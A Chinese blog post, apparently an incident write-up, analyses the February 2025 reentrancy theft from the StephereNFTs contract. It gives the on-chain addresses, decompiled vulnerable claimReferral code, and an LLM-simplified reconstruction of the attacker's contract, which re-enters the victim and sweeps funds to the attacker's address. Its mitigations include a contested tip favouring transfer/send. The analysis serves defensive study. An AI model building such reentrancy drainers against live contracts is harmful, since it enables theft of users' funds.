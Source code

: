 ```yaml
---
title: "StephereNFTs 遭遇重入攻击分析"
date: 2025-02-21T11:25:05
featured_image: "/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png"
tags: ["web3安全事件","合约审计"]
description: "StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金"
---
```

## 攻击概述
2025 年 2 月 ，StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金。

### 参考地址：  
https://nickfranklin.site/2025/02/21/stepheronfts-attacked/


## 相关地址
- **受害合约地址**：`0x9823e10a0bf6f64f59964be1a7f83090bf5728ab`
- **攻击者地址**：`0xFb1cc1548D039f14b02cfF9aE86757Edd2CDB8A5`
- **恶意合约1**：`0xd4c80700ca911d5d3026a595e12aa4174f4cacb3`
- **恶意合约2**：`0xb4c32404de3367ca94385ac5b952a7a84b5bdf76`
- **恶意合约3**：`0x8f327e60fb2a7928c879c135453bd2b4ed6b0fe9`
- **攻击交易 (tx)**：https://bscscan.com/tx/0xef386a69ca6a147c374258a1bf40221b0b6bd9bc449a7016dbe5240644581877

## 攻击步骤解析
### 1. 部署恶意合约

攻击者首先部署了多个恶意合约，以便后续进行重入攻击。

<center>{{< figure src="/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png" width="100%" title="图1" >}}</center>


### 2. 通过闪电贷获取初始资金
攻击者利用闪电贷借入了一笔资金，用于后续触发合约的奖励机制。

<center>{{< figure src="/images/424903484-37fadaff-fa68-43cf-b0a7-c7d5f971b4c2.png" width="100%" title="图2" >}}</center>


<center>{{< figure src="/images/424903603-00bd518d-2372-4e43-a7c6-f7b91f26245d.png" width="100%" title="图3" >}}</center>
通过购买资产获取奖励资格

### 3. 通过重入攻击不断获取受害合约资金
攻击者发现受害合约的奖励机制存在漏洞：
- 在领取奖励时，合约会检查推荐奖励的数量。
- 但由于合约先发放奖励，再将奖励计数清零，导致可以在清零前重复调用领取奖励函数，实现重入攻击。

攻击者利用这一漏洞，不断调用恶意合约，通过递归方式重复领取奖励，最终盗取了大量资金。

## 关键漏洞分析
该攻击的核心漏洞在于 **先发奖励后清零** 的逻辑顺序问题，导致了经典的重入攻击 (Reentrancy Attack)。

**漏洞代码示例**：
```solidity
function claimReferral(address varg0) public nonPayable {  find similar
    require(msg.data.length - 4 >= 32);
    require(!_paused, Error('Pausable: paused'));
    require(owner_5[msg.sender][varg0], Error('not-enough-money'));
    0x2d1e(varg0, owner_5[msg.sender][varg0], msg.sender);
    owner_5[msg.sender][varg0] = 0;
    emit 0x9c21c092f05b64df5ae0cbf557b9bf4e9695cdbeaa13fcf9a0831bce847f0cfb(msg.sender, varg0, owner_5[msg.sender][varg0]);
}
```


攻击者可以重复调用重新调用 `claimReferral`，从而在清零前多次获取奖励。

具体发送的函数
```solidity
function 0x2d1e(address varg0, uint256 varg1, address varg2) private { 
    if (varg0) {
        MEM[MEM[64] + 36] = varg2;
        MEM[MEM[64] + 68] = varg1;
        0x2c96(100 + MEM[64], 0xa9059cbb00000000000000000000000000000000000000000000000000000000, varg0);
        return ;
    } else {
        v0, /* uint256 */ v1 = varg2.call().value(varg1).gas(msg.gas);
        if (RETURNDATASIZE() != 0) {
            v2 = new bytes[](RETURNDATASIZE());
            v1 = v2.data;
            RETURNDATACOPY(v1, 0, RETURNDATASIZE());
        }
        require(v0, Error('transfer-BNB-failed'));
        return ;
    }
}
```

另外这里展示下黑客用来实现反复调用的第三部分恶意合约：
(使用LLM处理了一下)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract TokenHandler {
    address private owner;
    address private token1;
    address private token2 = 0xFb1cC1548d039f14b02cfF9ae86757edD2cdB8A5;

    constructor() {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "invalid sender");
        _;
    }

    function func_6f2db99c() external {
        // 调用 owner 的某个函数 (e61aee51)
        //重复调用claimReferral函数
        (bool success, ) = owner.call(abi.encodeWithSignature("e61aee51()"));
        require(success);
    }

    function withdraw(address token, uint256 amount) external onlyOwner {
        // 获取 token 在调用者地址的余额
        (bool success1, bytes memory data) = token.call(
            abi.encodeWithSelector(0x70a08231, address(this))
        );
        require(success1);
        uint256 balance = abi.decode(data, (uint256));

        // 调用 withdraw (0x2e1a7d4d)
        (bool success2, ) = token.call(abi.encodeWithSelector(0x2e1a7d4d, balance));
        require(success2);

        // 调用 token 的 transfer 函数
        (bool success3, ) = token.call(
            abi.encodeWithSelector(0xa9059cbb, msg.sender, balance)
        );
        require(success3);

        // 向 msg.sender 发送 1 wei
        (bool success4, ) = msg.sender.call{value: 1}("");
        require(success4);

        // 向 token2 发送当前合约余额
        (bool success5, ) = token2.call{value: address(this).balance}("");
        require(success5);
    }

    function executeCall() internal {
        // 复杂的外部调用逻辑，可能涉及 delegatecall 或其他操作
        // 这里简化表示
        (bool success, ) = token1.call{value: address(this).balance}("");
        require(success, "call failed");

        // 调用 token1 的函数 0x50eb1dfe
        (bool success2, ) = token1.call(
            abi.encodeWithSelector(0x50eb1dfe, token2, address(this).balance)
        );
        require(success2);
    }
}
```

## 解决方案
为了防止类似的重入攻击，可以采取以下措施：
1. **使用 Checks-Effects-Interactions 模式**：
   - 先更新状态，再进行外部调用，以避免重入风险。
2. **使用 `ReentrancyGuard`**：
   - 通过 OpenZeppelin 提供的 `nonReentrant` 修饰符，防止函数的嵌套调用。
3. **避免直接调用 `call` 进行转账**：
   - 推荐使用 `transfer` 或 `send`，虽然限制了 GAS，但能降低重入攻击的风险。




